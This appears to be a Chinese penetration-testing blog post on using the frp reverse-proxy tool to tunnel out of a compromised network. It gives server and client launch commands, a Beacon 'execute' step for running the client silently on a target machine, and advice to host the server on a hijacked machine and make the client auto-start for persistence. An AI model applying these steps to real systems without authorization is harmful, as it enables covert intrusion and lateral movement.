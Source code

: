 ```yaml
---
title: frp
top: false
cover: false
categories:
- 渗透测试
tags:
- frp
- 内网穿透
- 端口转发
abbrlink: 23493
date: 2020-09-10 14:56:45
keywords:
summary:
img:
password:
---
```


下载地址：https://github.com/fatedier/frp.git

跨平台，根据自己情况选择使用



### 配置文件

#### 服务端

<img src="https://image.geoer.cn/frp1.png"></img>

#### 客户端

<img src="https://image.geoer.cn/frp2.jpg"></img>





### 部署

#### 服务端

连接到vps上，后台启动服务端

```bash
nohup ./frps -c frps.int &
jobs -l 
cat frps.log
```

#### 客户端

将`frpc.exe`与`frpc.ini`传到目标机的同一目录下，直接运行

```bash
frpc.exe -c frpc.int
```

当frp客户端启动后，是否成功连接，都会在frp服务端日志中查看到


但如果直接在目标机的Beacon中启动frp客户端，会持续有日志输出，并干扰该pid下的其他操作，

所以可结合execute在目标机无输出执行程序。

```bash
sleep 10
execute c:/frpc.exe -c c:/frpc.ini
shell netstat -ano |findstr 7007

```



#### Windows

Windows中可结合Proxifier、SSTap等工具，可设置socks5口令，以此达到用windows渗透工具横向穿透的效果。





>
>Frp的用法比较灵活且运行稳定。如可将frp服务端挂在"肉鸡"上，以达到隐蔽性，也可将客户端做成服务自启的形式等，实战中可自由发挥。



